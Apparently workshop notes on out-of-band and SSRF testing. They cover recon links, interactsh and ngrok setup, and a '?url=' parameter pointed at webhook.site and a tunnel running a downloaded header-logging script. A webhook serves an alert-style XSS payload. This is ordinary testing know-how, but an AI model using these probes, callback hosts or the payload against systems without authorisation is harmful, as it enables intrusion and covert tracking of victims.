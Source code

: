 
https://ipinfo.io/50.58.239.155  
https://www.ssllabs.com/ssltest/  
https://securityheaders.com/  
https://csp-evaluator.withgoogle.com/  
https://security.snyk.io/package/maven/org.apache.tomcat:tomcat/9.0.37 

https://iplogger.org/  

-----------------------------------------------

INTERACTSH  
https://github.com/projectdiscovery/interactsh  
https://github.com/projectdiscovery/interactsh/releases  

sudo apt install golang-go  
go version  
go install -v github.com/projectdiscovery/interactsh/cmd/interactsh-client@latest  

vim ~/.zshrc  
export GOPATH="$HOME/go"  
PATH="$GOPATH/bin:$PATH"  

interactsh-client -h  

interactsh-client  
interactsh-client -v  

-----------------------------------------------

https://canarytokens.org  

https://webhook.site/  

-----------------------------------------------

https://ngrok.com/docs/secure-tunnels/ngrok-agent/reference/changelog/  
https://ngrok.com/download  

wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz  
tar -xzvf ngrok-v3-stable-linux-amd64.tgz  

~/ngrok -v  
sudo apachectl start  
(python3 -m http.server)  

~/ngrok http 80  
https://02fd-179-6-12-98.ngrok-free.app  

https://dashboard.ngrok.com/signup  
https://dashboard.ngrok.com/get-started/your-authtoken  

~/ngrok config add-authtoken your_token  

~/ngrok http 80  
https://a90d-179-6-12-98.ngrok-free.app  

http://localhost:4040  

~/ngrok http 80 --domain=chipmunk-gentle-heartily.ngrok-free.app --basic-auth="user:password"  

-----------------------------------------------

https://chipmunk-gentle-heartily.ngrok-free.app/?url=https://www.google.com  
https://chipmunk-gentle-heartily.ngrok-free.app/?url=https://webhook.site/406d1bee-89d3-4777-87d6-15bf7e2edca8  

---------

https://webhook.site/ - Edit  

text/html  

<html>  
<script>alert(document.location)</script>  
</html>  

https://chipmunk-gentle-heartily.ngrok-free.app/?url=https://webhook.site/406d1bee-89d3-4777-87d6-15bf7e2edca8  

---------

cd /tmp  
wget https://raw.githubusercontent.com/oscarmrdc/workshop_free/main/headers.py  
pip install web.py==0.62  
python3 headers.py 9090  
~/ngrok http 9090  

https://9371-179-6-12-98.ngrok-free.app  
https://chipmunk-gentle-heartily.ngrok-free.app/?url=https://9371-179-6-12-98.ngrok-free.app  



